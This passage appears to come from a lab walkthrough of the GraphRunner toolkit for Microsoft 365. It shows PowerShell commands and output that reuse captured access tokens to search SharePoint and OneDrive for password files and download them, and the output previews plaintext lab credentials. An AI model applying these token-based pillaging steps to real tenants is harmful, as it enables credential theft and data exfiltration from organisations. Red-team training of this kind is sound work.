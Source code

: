 ```powershell
xms_idrel           : 10 1
xms_tcdt            : 1671311182

[*] Successful authentication. Access and refresh tokens have been written to the global $tokens variable. To use them with other GraphRunner modules use the Tokens flag (Example. Invoke-DumpApps -Tokens $tokens)
[!] Your access token is set to expire on: 10/05/2024 12:13:20
```


According to the above output, Some modules will require you use the `-Tokens $tokens` option, Just in case you don't know what tokens are refer to this [blog](https://www.xintra.org/blog/tokens-in-entra-id-guide) by [@inversecos](https://x.com/inversecos) to understand more.



![](https://i.imgur.com/zQt1ulT.jpeg)



It is also possible to view the help page just like the `--help` option in bash but this time with the below command syntax starting with first **Pillage Module**


```
Get-Help Invoke-SearchSharePointAndOneDrive -Examples
```

![](https://i.imgur.com/MoZhYop.png)


We can then execute this module to search for files containing the string "**`password`**".


```powershell
PS sec-fortress@Pwn-F0rk-3X3C /home/sec-fortress/Az_lab> Invoke-SearchSharePointAndOneDrive -Tokens $tokens -SearchTerm 'password'

[*] Using the provided access tokens.
[*] Found 2 matches for search term password
Result [0]
File Name: passwords.xlsx
Location: https://iancloudpwned.sharepoint.com/Shared Documents/passwords.xlsx
Created Date: 03/27/2024 00:13:10
Last Modified Date: 09/23/2024 21:02:42
Size: 14.79 KB
File Preview: <c0>passwords</c0> Site Username <c0>Password</c0> Azure lindsey_adm $R4ncher2043 Dev Env r&d $MEGAPRODUCTS-<ddd/>
DriveID & Item ID: b!bT4vhymq0UWW7LvQnMzGLIicHuknVeZGkE3-8tuCtaeO-nKW9TKYT7NHHw0ABSux\:017K7QPLPAKVIRHIULQ5BK6A3KQTCK2SCD
================================================================================
Result [1]
File Name: Finance Logins.docx
Location: https://iancloudpwned.sharepoint.com/sites/FinanceTeam/Shared Documents/Finance Logins.docx
Created Date: 11/06/2023 00:17:46
Last Modified Date: 11/06/2023 00:17:00
Size: 20.74 KB
File Preview: <ddd/><c0>PASSWORDS</c0>) Service/Account: Finance Database URL: https://10.10.11.15/login Username: <ddd/> <c0>Password</c0>: F1n@nc3Db2023! Service/Account: Accounting Software URL: https://accounting.<ddd/>
DriveID & Item ID: b!XM0yHkS8s0KPA7drboV7c7bd4PO1jD1BpS2fN8axCu6HW_Ya2jEcSZSebeuGuDsI\:01UALFMSZAKNKICFDDHRH2II4AID3NQRGJ
================================================================================
[*] Do you want to download any of these files? (Yes/No/All)
All
[***] WARNING - Downloading ALL + 2 matches.
[*] Now downloading passwords.xlsx
[*] Now downloading Finance Logins.docx
```